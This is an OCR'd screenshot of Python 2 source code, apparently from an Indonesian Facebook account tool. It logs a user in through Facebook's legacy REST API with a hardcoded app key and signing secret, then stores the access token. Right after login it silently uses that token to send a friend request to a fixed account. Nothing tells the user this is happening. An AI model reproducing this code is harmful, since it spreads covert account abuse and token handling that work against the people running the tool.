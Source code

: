  try:
 sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
 data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
 x=hashlib.new("md5")
 x.update(sig)
 a=x.hexdigest()
 data.update({'sig':a})
 url = "https://api.facebook.com/restserver.php"
 r=requests.get(url,params=data)
 z=json.loads(r.text)
 unikers = open("login.txt", 'w')
 unikers.write(z['access_token'])
 unikers.close()
 print '\n\033[1;96m[✓] \x1b[1;92mLogin Berhasil'
 os.system('xdg-open https://youtube.com/channel/UCkoqlUeR59-foCsaMdQJOJw')
 requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
 menu()
 except requests.exceptions.ConnectionError:
 print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
 keluar()
 if 'checkpoint' in url:
 print("\n\033[1;96m[!] \x1b[1;91mSepertinya akun anda kena checkpoint")
 os.system('rm -rf login.txt')
 time.sleep(1)
 keluar()
 else:
 print("\n\033[1;96m[!] \x1b[1;91mPassword/Email salah")
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()

def menu():
 os.system('clear')
 try:
 toket=open('login.txt','r').read()
 except IOError:
 os.system('clear')
 print"\033[1;96m[!] \x1b[1;91mToken invalid"
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()
 try:
 otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
 a = json.loads(otw.text)
 nama = a['name']
 id = a['id']
 except KeyError:
 os.system('clear')
 print"\033[1;96m[!] \033[1;91mSepertinya akun anda kena checkpoint"
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()
 except requests.exceptions.ConnectionError:
 print"\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
 keluar()
 os.system("clear")
 print logo
 print 42*"\033[1;96m="